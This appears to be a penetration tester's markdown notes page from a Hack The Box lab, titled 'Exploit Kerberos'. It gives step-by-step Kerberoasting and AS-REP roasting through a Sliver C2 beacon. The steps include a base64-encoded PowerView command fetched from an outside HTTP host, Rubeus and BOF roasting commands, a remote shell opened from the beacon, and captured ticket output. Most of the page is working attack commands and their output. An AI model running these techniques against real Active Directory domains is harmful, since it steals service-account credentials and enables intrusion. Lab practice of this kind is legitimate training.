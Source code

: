 ```yaml
---
description: Checking SPNs on service accounts starting with setting up a pivot.
---
```


# Exploit Kerberos

### <mark style="color:yellow;">Kerberoasting</mark>

Using sharpsh we can enumerate kerberoastable account

```sh
# Encode base64
mczen@htb[/htb]$ echo "Get-NetUser -spn | select samaccountname,description" | base64
R2V0LU5ldFVzZXIgLXNwbiB8IHNlbGVjdCBzYW1hY2NvdW50bmFtZSxkZXNjcmlwdGlvbgo=

# Send PowerView command
sharpsh -- '-u http://10.10.14.62:8080/PowerView.ps1 -e -c "R2V0LU5ldFVzZXIgLXNwbiB8IHNlbGVjdCBzYW1hY2NvdW50bmFtZSxkZXNjcmlwdGlvbgo="'
```

Then use Rubeus to Kerberoast

```sh
inline-execute-assembly /home/kali/Rubeus.exe 'kerberoast /format:hashcat /user:alice /nowrap'
```

Or use c2tc

```sh
c2tc-kerberoast roast alices
```

### <mark style="color:yellow;">AS-REP Roasting</mark>

```shell-session
inline-execute-assembly /home/kali/Rubeus.exe 'asreproast /format:hashcat /user:bob /nowrap'
```

### <mark style="color:yellow;">Native aproach</mark>

Drop into a shell and use `setspn.exe -Q`` `_`/`_.

```sh
sliver (http-beacon) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...
[*] Started remote shell with pid 3360

PS C:\Users\eric\Desktop> setspn.exe -Q */*
setspn.exe -Q */*
Checking domain DC=child,DC=htb,DC=local
CN=svc sql,OU=Service Account,DC=child,DC=htb,DC=local
	MSSQLSvc/srv02.child.htb.local:1433
	MSSQLSvc/srv02.child.htb.local:DB02
	MSSQLSvc/srv01.child.htb.local:1433
	MSSQLSvc/srv01.child.htb.local:DB01
CN=alice,CN=Users,DC=child,DC=htb,DC=local
	rdp/web01.child.htb.local
```

Using the bof-roast utility we can get the hash of Alice and convert it to a ticket using [apreq2hashcat.py](https://github.com/sliverarmory/BofRoast/blob/main/BofRoast/apreq2hashcat.py).

```sh
sliver (http-beacon) > bof-roast rdp/web01.child.htb.local

[*] Successfully executed bof-roast (coff-loader)
[*] Got output:
[+] Target SPN: rdp/web01.child.htb.local
[+] Got Ticket! Convert it with apreq2hashcat.py YIIGUgYJKoZIhvcSAQICAQBuggZBMIIGPaADAgEFoQMCAQ6iBwMFACAAAACjggRpYYIEZTCCBGGgAwIBBaERGw9DSElMRC5IVEIuTE9DQUyiJzAl <SNIP> CGqE=
```

